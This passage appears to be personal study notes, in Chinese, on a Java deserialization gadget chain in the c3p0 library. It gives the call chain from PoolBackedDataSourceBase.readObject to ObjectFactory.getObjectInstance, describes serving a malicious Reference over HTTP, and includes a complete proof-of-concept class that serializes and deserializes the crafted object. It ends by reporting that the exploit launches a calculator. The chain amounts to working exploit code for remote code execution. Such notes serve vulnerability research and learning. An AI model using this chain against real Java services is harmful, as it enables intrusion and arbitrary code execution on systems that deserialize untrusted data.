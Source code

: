 开http服务，传恶意Reference

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001152709091.png)

PoolBackedDataSourceBase.wirteObject自动写VERSION序列化数据和封装

POC：

```java
package org.exploit.third.c3p0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.sql.ConnectionPoolDataSource;
import java.io.IOException;


//PoolBackedDataSourceBase#readObject ->
//ReferenceSerialized#getObject ->
//ReferenceableUtils#referenceToObject ->
//ObjectFactory#getObjectInstance
public class c3p0 {
    public static void main(String[] args) throws Exception
    {
        ConnectionPoolDataSource connectionPoolDataSource = new c3p0_Reference();
        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        poolBackedDataSourceBase.setConnectionPoolDataSource(connectionPoolDataSource);
        serialize(poolBackedDataSourceBase);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```

已经能弹计算器了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001152758094.png)
